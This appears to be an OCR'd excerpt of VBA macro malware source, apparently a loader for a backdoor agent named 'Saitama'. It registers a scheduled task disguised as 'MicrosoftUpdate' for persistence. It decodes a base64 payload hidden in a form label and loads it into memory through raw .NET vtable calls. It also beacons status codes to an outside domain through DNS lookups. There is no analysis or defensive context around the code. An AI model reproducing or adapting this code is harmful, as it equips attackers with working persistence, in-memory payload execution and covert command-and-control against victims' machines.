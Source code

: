 ```vb
    xmlText = xmlText & "<IdleSettings><Duration>PT10M</Duration><WaitTimeout>PT1H</WaitTimeout></IdleSettings><AllowStartOnDemand>true</AllowStartOnDemand><Enabled>true</Enabled><Hidden>false</Hidden><RunOnlyIfIdle>false</RunOnlyIfIdle><WakeToRun>false</WakeToRun><ExecutionTimeLimit>P20D</ExecutionTimeLimit><Priority>7</Priority></Settings><Actions Context=""Author""><Exec><Command>""" & ofp & """</Command><WorkingDirectory>" & drop_path & "</WorkingDirectory></Exec></Actions></Task>"
                                        
    ' Paramters: 6 =>TASK_CREATE_OR_UPDATE , 3=> TASK_LOGON_INTERACTIVE_TOKEN)
    Call rootFolder.RegisterTask("MicrosoftUpdate", xmlText, 6, , , 3)
    eNotif "zbbfz"
 
End Sub



Sub Test()
    Set objXMLDoc = CreateObject("Microsoft.XMLDOM")
    Set objXmlNode = objXMLDoc.createElement("tmp")
    objXmlNode.DataType = "bin.base64"
    objXmlNode.Text = word.Label.Caption
    b64_decoded  = objXmlNode.NodeTypedValue
    
    Dim decoded_bytes() As Byte
    decoded_bytes = b64_decoded
    
    
    ' VBA code for calling AppDomain.Load using raw vtable lookups for the IUnknown
    ' Upon searching the next line , the following link pop ups https://gist.github.com/monoxgas/1b36031c5593ebfed3229f4424f77090
    Dim host As New mscoree.CorRuntimeHost, dom As AppDomain
    host.Start
    host.GetDefaultDomain dom

    Dim vRet As Variant, lRet As Long
    Dim vTypes(0 To 1) As Integer
    Dim vValues(0 To 1) As LongPtr

    Dim pPArry As LongPtr: pPArry = VarPtrArray(decoded_bytes)
    Dim pArry As LongPtr
    RtlMoveMemory pArry, ByVal pPArry, LS
    Dim vWrap: vWrap = pArry
    
    vValues(0) = VarPtr(vWrap)
    vTypes(0) = 16411
    
    Dim pRef As LongPtr: pRef = 0
    Dim vWrap2: vWrap2 = VarPtr(pRef)
    
    vValues(1) = VarPtr(vWrap2)
    vTypes(1) = 16396
    
    lRet = DispCallFunc(ObjPtr(dom), 45 * LS, 4, vbLong, 2, vTypes(0), vValues(0), vRet)
    
    Dim aRef As mscorlib.assembly
    RtlMoveMemory aRef, pRef, LS
    aRef.CreateInstance "Saitama.Agent.Program"
    
End Sub

Function eNotif(tMsg) 'tMsg = "zbbfz","zbafz","zbeez","zbdez","zbcez","zbbez","zbaez" , "zbbbz" , "zbabz"
    GetIPfromHostName("qw" & tMsg & random_number & ".joexpediagroup.com")
End Function

```